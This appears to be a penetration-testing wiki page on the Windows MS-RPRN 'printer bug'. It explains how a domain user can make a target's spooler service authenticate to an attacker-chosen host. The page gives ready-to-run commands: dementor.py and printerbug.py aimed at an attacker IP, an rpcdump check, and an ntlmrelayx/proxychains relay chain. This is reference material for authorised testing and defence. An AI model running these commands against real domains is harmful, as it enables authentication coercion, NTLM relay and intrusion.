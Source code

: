 # Printer Bug \(MS-RPRN abuse\)

## Theory

MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server. An attacker controlling a domain user/computer can, with an RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments.

{% hint style="info" %}
The attacker needs a foothold on the domain \(i.e. compromised account\) for this attack to work since the coercition is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 MS-RPRN
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../abusing-lm-and-ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy
{% endhint %}

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```

